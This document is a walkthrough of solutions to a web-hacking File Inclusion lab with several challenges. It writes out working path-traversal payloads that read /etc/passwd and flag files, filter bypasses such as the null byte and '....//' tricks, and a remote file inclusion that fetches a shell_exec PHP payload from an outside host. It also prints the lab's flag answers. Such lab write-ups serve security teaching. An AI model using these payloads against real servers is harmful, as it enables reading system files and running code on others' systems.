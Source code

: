 # Solutions to File Inclusion lab

Below are solutions to the lab provided in the [File Inclusion room](./1b_intro_to_web_hacking.md#file_inclusion).

![File Inclusion lab home](./img/file_inclusion_lab_home.png "File Inclusion lab home")

## Lab #1

We are given an input field, where we can specify a file name to be included.

![File Inclusion lab 1](./img/file_inclusion_lab_1.png "File Inclusion lab 1")

We observe what happens when `welcome.php` is submitted in the form.

![File Inclusion lab 1 test](./img/file_inclusion_lab_1_test.png "File Inclusion lab 1 test")

Notice that the file name is passed as a `GET` parameter, `file`. If we want to access and read, say `/etc/passwd`, we can request for `lab1.php?file=/etc/passwd`. 

![File Inclusion lab 1 passwd](./img/file_inclusion_lab_1_passwd.png "File Inclusion lab 1 passwd")

## Lab #2

We are given an input field, similar to Lab #1. 

![File Inclusion lab 2](./img/file_inclusion_lab_2.png "File Inclusion lab 2")

We attempt to directly request for `/etc/passwd`, but we get an error. From the error, it seems that the `include()` function is trying to include a file at the path `includes//etc/passwd`, which does not exist.

![File Inclusion lab 2 passwd error](./img/file_inclusion_lab_2_passwd_error.png "File Inclusion lab 2 passwd error")

Thus, we know that the file path that we pass into the `file` parameter will be taken **relative** to the directory `includes/`. To get to `/etc/passwd`, we use `../` to traverse the path, and pass the value `../../../../etc/passwd` to the `file` parameter.

![File Inclusion lab 2 passwd](./img/file_inclusion_lab_2_passwd.png "File Inclusion lab 2 passwd")

## Lab #3

We are again given an input field, and we try to make a request to `/etc/passwd`. 

![File Inclusion lab 3 error](./img/file_inclusion_lab_3_error.png "File Inclusion lab 3 error")

From the error, we can see that:

1. the file path is taken to be relative to the `includes/` directory (similar to [Lab #2](#lab-2)), and
2. the file name is appended with `.php`. 

To overcome this, we use the null byte trick. We know this will work since the second error tells us that the system is running PHP 5.2. We pass the value `../../../../etc/passwd%00` to the `file` parameter.

![File Inclusion lab 3 passwd](./img/file_inclusion_lab_3_passwd.png "File Inclusion lab 3 passwd")

## Lab #4

We are again given an input field, and we perform the usual recon. 

![File Inclusion lab 4 function](./img/file_inclusion_lab_4_function.png "File Inclusion lab 4 function")

We see that the relevant function here is `file_get_contents()`.

![File Inclusion lab 4 blocked](./img/file_inclusion_lab_4_blocked.png "File Inclusion lab 4 blocked")

It seems like the application filters the string for `/etc/passwd`. To bypass this, we use the `/.` trick, and send the request for `/etc/passwd/.` instead.

![File Inclusion lab 4 blocked](./img/file_inclusion_lab_4_passwd.png "File Inclusion lab 4 passwd")

## Lab #5

Performing the usual recon shows us that the substring `../` is replaced by an empty string.

![File Inclusion lab 5 filtered](./img/file_inclusion_lab_5_filtered.png "File Inclusion lab 5 filtered")

Using the payload `....//....//....//....//etc/passwd` bypasses the filtering, and we can successfully read `/etc/passwd`.

![File Inclusion lab 5 passwd](./img/file_inclusion_lab_5_passwd.png "File Inclusion lab 5 passwd")

## Lab #6

Recon tells us that only files in the `THM-profile` directory can be accessed. 

![File Inclusion lab 6 blocked](./img/file_inclusion_lab_6_blocked.png "File Inclusion lab 6 blocked")

To bypass this, we include the required directory in the payload: `THM-profile/../../../../etc/os-release`, and we successfully read the file.

![File Inclusion lab 6 os-release](./img/file_inclusion_lab_6_osrelease.png "File Inclusion lab 6 os-release")


## Challenge

![Challenge page](./img/file_inclusion_chall.png "Challenge page")

**Challenge #1**

The page tells us that we need to send a `POST` request with the `file` parameter.

![Challenge 1 page](./img/file_inclusion_chall_1.png "Challenge 1 page")

We send a `POST` request, with the payload: `file=/etc/flag1` and it gives us the flag.

![Challenge 1 request](./img/file_inclusion_chall_1_post.png "Challenge 1 request")

![Challenge 1 flag](./img/file_inclusion_chall_1_flag.png "Challenge 1 flag")

>  F1x3d-iNpu7-f0rrn 

**Challenge 2**

The page tells us to refresh the page, but refreshing does not change anything.

![Challenge 2 page](./img/file_inclusion_chall_2.png "Challenge 2 page")

We open the developer tools and notice that there is a cookie:

![Challenge 2 cookie](./img/file_inclusion_chall_2_cookie.png "Challenge 2 cookie")

We try changing the value of the cookie to "Admin" and refresh the page.

![Challenge 2 "Admin" cookie](./img/file_inclusion_chall_2_admin.png "Challenge 2 \"Admin\" cookie")

We see that this causes the `include()` function to be `include(includes/Admin.php)`. Thus, the `include()` function on the web server should have the following structure:

```php
include("includes" . <value of THM cookie> . ".php")
```

The error messages also tell us that server is running PHP 5.2, so we can use the null byte trick, and that the application directory is `/var/www/html`. Thus, to get to `/etc/flag2`, we set the cookie value to `../../../../etc/flag2%00`.

![Challenge 2 flag](./img/file_inclusion_chall_2_flag.png "Challenge 2 flag")

> c00k13_i5_yuMmy1

**Challenge 3**

There are no special messages on this page, so we proceed to directly request for the file `/etc/flag3` via the input field.

![Challenge 3 filtered](./img/file_inclusion_chall_3_filtered.png "Challenge 3 filtered")

Notice from the error messages that:

1. slashes `/` and numbers are filtered away
2. the input is appended with the `.php` file extension
3. the server uses PHP 5.2

After some trial and error, it seems like all non-alphabetical characters are filtered from the query string. 

At this point, I had no idea how to proceed, so I took a look at the provided hint. 

![Challenge 3 hint](./img/file_inclusion_chall_3_hint.png "Challenge 3 hint")

The hint tells us that the website uses the variable `$_REQUESTS` to accept HTTP requests. `$_REQUESTS` is a variable that contains all the contents of `$_GET`, `$_POST` and `$_COOKIE`. Thus, we should be able to also send the query parameter `file` via a `POST` request.

We send the following payload via a `POST` request: `file=/etc/flag3%00`.

![Challenge 3 request](./img/file_inclusion_chall_3_request.png "Challenge 3 request")

![Challenge 3 flag](./img/file_inclusion_chall_3_flag.png "Challenge 3 flag")

> P0st_1s_w0rk1in9

**RFI in Playground**

We use the input field in the "Playground" of the File Inclusion lab.

![File Inclusion lab playground](./img/file_inclusion_playground.png "File Inclusion lab playground")

First, I create the payload file for the RFI at `/tmp/hostname.php`: 

```php
<?php echo shell_exec("hostname"); ?>
```

Then, I start a HTTP server to host the file using [Updog](https://github.com/sc0tfree/updog), and insert the hosted file using the payload `file=10.10.75.70:9090/hostname.php`. 

![File Inclusion lab playground RFI](./img/file_inclusion_playground_hostname.png "File Inclusion lab playground RFI")

The hostname is:
> lfi-vm-thm-f8c5b1a78692